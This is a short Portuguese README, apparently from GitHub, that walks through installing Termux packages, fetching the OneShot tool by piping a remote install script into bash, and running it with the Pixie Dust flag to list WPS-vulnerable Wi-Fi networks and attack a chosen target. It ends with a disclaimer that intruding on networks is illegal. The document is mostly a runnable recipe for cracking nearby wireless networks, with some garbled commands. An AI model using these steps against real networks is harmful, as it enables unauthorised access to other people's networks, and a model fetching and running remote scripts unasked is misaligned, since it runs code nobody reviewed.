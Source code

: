 # Testando-Vulnerabilidade-Wifi<br>
Esse teste consiste em acessar versão redes wps´2>>>>> Terminal termux>>>>><br>
Vamos instalar uns programas ao inicializar>>>>>><br>
$ pkg update ´vamos atualizar repositório`<br>
vamos limpar a tela "clear"<br>
$ termux-change-repo<br>
ums nova janela irá abrir, marcar todas opções<br> 
<img src="id1.png"><br>
Próxima tela>>>>>>>>>>>><br>
<img src="id2.png"><br>
$ pkg upgrade<br>
$ pkg install git<br>
$pkg install python<br>
$pkg install python2<br>
Instalando pio pip fundamental para o próximo passe.<br>
$ pkg install --upgrade pio<br>
$ pkg install --upgrade pip<br>
Instalar a dependencias segue o git clone>>>>>>>>>><br>
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash<br>
$ ls (pastas)<br>
cd OneShot (***preste atenção O maísculo e S maísculo***)<br>
$ ls<br>
Vamos agora chamar para rodar com sudo no python<br>
$ sudo python oneshot.py -l wlan0 -K <br> 
Termux vai listar possíveis redes vulneráveis de ser hackeadas.<br>
<img src="id3.png"><br>
serão numerados as conexões e escolher >>>>>>>>> alvo e irá comecar scanning.... <br><br>
<img src="id4.png"><br><br>
Lembra-se use para seus estudos, invasão de redes é uma violação e poderá responder pelos seus atos com a justiça.<br>

